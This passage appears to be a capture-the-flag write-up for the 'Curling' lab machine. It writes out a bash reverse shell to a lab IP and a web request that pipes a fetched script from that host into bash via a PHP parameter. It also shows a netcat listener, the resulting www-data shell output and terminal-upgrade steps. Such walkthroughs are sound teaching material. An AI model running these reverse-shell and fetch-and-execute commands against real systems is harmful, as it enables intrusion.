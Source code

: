 	bash -c 'bash -i >& /dev/tcp/10.10.17.201/9001 0>&1'
	
### Create HTTP server to serve reverse shell script

	python -m SimpleHTTPServer 80		// Python
	python3	-m http.server 80			// Python 3

### Setup listener to receive reverse shell

	nc -lvnp 9001

### Execute reverse shell script

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

		nc -lvnp 9001
	
```shell-session
listening on [any] 9001 ...
connect to [10.10.17.201] from (UNKNOWN) [10.129.171.59] 37656
bash: cannot set terminal process group (1542): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar$
```

## Lateral Movement

### Upgrade terminal for improved functionality (arrow keys, etc.)

`www-data@curling:/var/www/html/templates/protostar$ ^[[D^[[A^[[C^[[D^[[A^[[C`

	which python
	which python3
	
#### Spawn a bash terminal

	python3 -c 'import pty;pty.spawn("/bin/bash")'

#### Background it
	<Ctrl+Z>

#### Change terminal line settings

`stty raw -echo;fg`
	
```bash
raw		// same as -ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr -icrnl -ixon -ixoff -icanon -opost -isig -iuclc -ixany -imaxbel -xcase min 1 time 0
-echo	// echo input characters
;fg		// plays nice with zsh
```

#### Enable clear screen functionality


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency